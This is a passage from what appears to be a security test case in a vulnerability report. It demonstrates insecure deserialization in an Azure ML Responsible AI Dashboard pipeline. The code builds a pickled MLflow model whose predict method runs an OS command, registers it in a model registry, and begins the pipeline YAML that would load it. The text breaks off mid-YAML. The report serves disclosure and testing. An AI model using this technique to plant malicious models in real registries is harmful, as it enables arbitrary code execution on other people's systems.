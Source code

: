 - **Security Test Case:**
    1. **Attacker creates a malicious model:**
        ```python
        import mlflow.pyfunc
        import pickle
        import os

        class MaliciousModel(object):
            def predict(self, data):
                os.system('touch /tmp/pwned') # Malicious command
                return [0] * len(data)

        # Create malicious payload
        malicious_code = MaliciousModel()

        # Save malicious model
        mlflow.pyfunc.save_model(
            path="malicious_model",
            python_model=malicious_code,
            serialization_format=mlflow.pyfunc.SERIALIZATION_FORMAT_PICKLE
        )
        ```
    2. **Attacker registers the malicious model in AzureML Model Registry** (using AzureML SDK or CLI, assuming attacker has access):
        ```python
        from azure.ai.ml import MLClient
        from azure.ai.ml.entities import Model
        from azure.identity import DefaultAzureCredential

        ml_client = MLClient.from_config(credential=DefaultAzureCredential())

        model_name = "malicious-rai-model"
        model_version = "1"

        malicious_model_asset = Model(
            path="malicious_model",
            type="mlflow_model",
            name=model_name,
            version=model_version,
            description="Malicious RAI Model"
        )
        registered_model = ml_client.models.create_or_update(malicious_model_asset)

        print(f"Registered model {registered_model.name}:{registered_model.version}")
        malicious_model_id = f"{registered_model.name}:{registered_model.version}"
        ```
    3. **User creates and submits a Responsible AI Dashboard pipeline job**, replacing `<MALICIOUS_MODEL_ID>` with the ID from the previous step in `pipeline.yaml`:
        ```yaml
        $schema: https://azuremlschemas.azureedge.net/latest/pipelineJob.schema.json
        experiment_name: RAI_Insecure_Deserialization_Test
        type: pipeline
        inputs:
          target_column_name: income
          my_training_data:
            type: mltable
            path: azureml:adult_train:1
            mode: download
          my_test_data:
            type: mltable
            path: azureml:adult_test:1
            mode: download
        settings: